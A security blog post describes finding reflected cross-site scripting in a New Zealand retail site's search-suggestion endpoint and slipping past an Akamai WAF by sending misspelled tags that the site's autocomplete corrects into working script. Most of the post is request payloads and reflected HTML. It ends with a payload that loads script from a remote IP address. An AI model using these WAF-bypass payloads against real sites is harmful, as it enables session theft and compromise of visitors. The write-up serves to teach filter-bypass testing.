


+++
title = "Bypassing a WAF With Autocomplete"
date = 2024-07-15T10:33:59+12:00
draft = false
description = "Hacking a farming website!"
+++

A few months ago, I was looking at a popular New Zealand website. I came across their search feature.
and found that when I interacted with the search box, it queried this endpoint to fetch the search results
<!--more-->

`<snip>/ViewSuggestSearch-Suggest&SearchTerm=tshirt`

```html
<div class="suggest-results-list search-spring">
<button type="button" class="close" title="Close"><span>×</span></button>
<div class="suggest-suggestion-list col-xs-6">
	<h3>Search Suggestion</h3>
	<ul>
		<li class="classic">
			<button type="button"
					data-search-result="tshirt"
					class="search-result">
				<span class="ish-searchTerm">tshirt</span>
			</button>
		</li>
	</ul>
</div>

(A bunch of products)...

```

The page would make these `HTTP GET` requests, and the endpoint would return a little HTML widget
that would then be embedded in the page. I tried injecting a HTML tag to test if this is vulnerable:

`/ViewSuggestSearch-Suggest&SearchTerm=<h1>HACKS?!</h1>`

```html
<div class="suggest-results-list search-spring">
<button type="button" class="close" title="Close"><span>×</span></button>
<div class="suggest-suggestion-list col-xs-6">
	<h3>Search Suggestion</h3>
	<ul>
		<li class="classic">
			<button type="button"
					data-search-result="<h1>hack?!</h1>"
					class="search-result">
			<h1>hack?!</h1>
			</button>
		</li>
	</ul>
</div>
```

Oops, that's not great—our input gets reflected without being sanitized! That means we can get
JavaScript execution, grab some cookies, and pwn people now… right? Let’s find out:

`/ViewSuggestSearch-Suggest&SearchTerm=<script>alert(document.domain)</script>`



Wow, that's a crazy coincidence! Isn’t it? Let’s look a little closer…



Huh, okay, unfortunately, we have to work a bit harder. This company has paid attention to the
security checklist and installed a Web Application Firewall (WAF), namely Akamai's 'Kona Site
Defender'. You can read more about WAFs
[here](https://owasp.org/www-community/Web_Application_Firewall), but the idea is that if we can’t
stop all the vulnerabilities, we can at least make exploitation harder by blocking suspicious
requests.

Clearly this is a problem, how do we bypass it?

Looking back at our first injection attempt, we can notice something interesting: the word "HACKS"
got changed to "hack". This is likely due to an autocomplete feature, by the nature of it being a
search engine. This may prove useful in bypassing the WAF. Can we somehow craft a payload that slips
past the WAF, is then transformed by this autocomplete feature into something malicious,
and then reflected to the victim's browser? Well, we’ve already seen that it seems to disregard the
non-alphanumeric characters from its autocompleting (i.e., `<>/`). That’s good; we only have to
worry about the words. Let's try:

`/ViewSuggestSearch-Suggest&SearchTerm=<script>`

Blocked, ok thats expected,

What if we try “scripr”, a subtle misspelling of “script”? Will it autocomplete it?

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr>`

```html
...
<li class="classic">
	<button type="button" 
			data-search-result="<script>" 
			class="search-result">
		<span class="ish-searchTerm"><script></span>
	</button>
</li>
...
```

Perfect! That looks good; the WAF doesn't block it. Let's build it up more. It turns out the
autocomplete doesn’t like the second word to be followed by a ">", so let's add a "/" which the
browser will ignore.

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr></scripr/>`

```html
...
<li class="classic">
	<button type="button" 
			data-search-result="<script></script>" 
			class="search-result">
		<span class="ish-searchTerm"><script></script/></span>
	</button>
</li>
...
```

Sweet, it also seems that the WAF doesn’t like "alert(", so we'll use "alertt(" instead.

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr>alertt(document.domain)</scripr/>`


Yay! we did it :3, In terms of further exploitation, a payload such as
`<scripr/src="//<remote-ip>/"></scripr/>` seems to work and Note: It's much easier here with an ip
address as domain names will get autocompleted.

Overall this was a fun little bug to discover, and demonstrates how to utilize these types of
transformations to bypass WAF's and filters.
